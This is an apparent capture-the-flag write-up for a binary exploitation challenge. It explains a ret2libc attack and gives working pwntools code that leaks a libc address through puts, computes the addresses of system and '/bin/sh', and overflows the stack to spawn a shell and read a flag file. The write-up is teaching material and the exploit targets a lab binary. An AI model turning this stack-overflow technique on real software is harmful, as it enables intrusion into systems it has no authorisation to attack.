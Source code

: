 
The *Easy* level challenge of this program allows us to call ``win`` function to get the first flag. At this level requires us to get the second flag ``/flag2.txt`` via shell. The stack is non executable, we can't just throw some shellcode to it, we need to try ``ret2libc`` method. To call``system("bin/sh")``, we need address of ``system``, address of the ``binsh`` string and a return address for ``system``. To find out the actuall address of some function in libc we can use a relative address of the function we want to another function we can easily find out the address. In this case, we call ``puts@plt`` to print the actual address of it at runtime which is stored in table ``got``. We need to return send another payload to call ``system``, so we need to return to a function that allow us to go through the whole process again, the payload would be ``address of puts@plt + address of main + address of put@got``. 


```python
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = b'\x90'*60
payload += pwn.p32(puts_plt)
payload += pwn.p32(elf.sym["main"])
payload += pwn.p32(puts_got)

pr.sendlineafter("Input some text: ", payload)
pr.readuntil('Return address: ')
pr.readline()
pr.readline()
puts_addr = int.from_bytes(pr.read(4).strip().ljust(4, b'\x00'), 'little')
print('puts', hex(puts_addr))
```


When we have the address of ``puts``, we can find the relative address of system and binsh string via [libc.blukat.me](https://libc.blukat.me/?q=puts%3A0xf7d98b40&l=libc6_2.27-3ubuntu1_i386), as we what it exit when ``system`` call returns, we also need to find out address of ``exit``.

```python
sys_addr = puts_addr - 0x2a940
binsh_addr = puts_addr + 0x11658f
exit_addr = puts_addr - 227184
print('sys', hex(sys_addr))
print('binsh', hex(binsh_addr))
payload = b'\x90'*60
payload += pwn.p32(sys_addr)
payload += pwn.p32(exit_addr)
payload += pwn.p32(binsh_addr)

pr.sendlineafter("Input some text: ", payload)
pr.sendline("cat /flag2.txt")
print(pr.readall(2).decode())
```

When we get a shell, ``cat`` command brings us the flag.
